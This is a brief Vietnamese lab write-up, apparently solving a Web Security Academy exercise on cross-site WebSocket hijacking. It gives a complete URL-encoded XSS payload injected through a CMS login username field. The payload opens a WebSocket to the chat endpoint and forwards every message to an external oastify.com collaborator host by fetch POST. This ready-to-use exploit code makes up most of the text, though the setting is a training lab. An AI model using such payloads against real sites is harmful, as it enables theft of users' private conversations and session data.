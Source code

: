 - Tôi thấy điều khả khi ở chỗ `Access-Control-Allow-Origin: https://cms-0ae500d5033d7b26c305897c00990069.web-security-academy.net`. Sau đó tôi truy cập vào đường link tôi đã thấy một trang đăng nhập mà phần tài khoản có thể xss. Tôi đã tận dụng điều này và encode script trên và tạo một script tấn công như sau:

```javascript
<script>
    document.location = "https://cms-0ae500d5033d7b26c305897c00990069.web-security-academy.net/login?username=%3Cscript%3E%0A%20%20%20%20var%20ws%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0ae500d5033d7b26c305897c00990069.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20ws.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20ws.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20ws.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2F1prqdy6q3hncr8h9zl0tf9jec5iy6n.oastify.com%27%2C%20%7Bmethod%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20event.data%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E&password=anything";
</script>
```
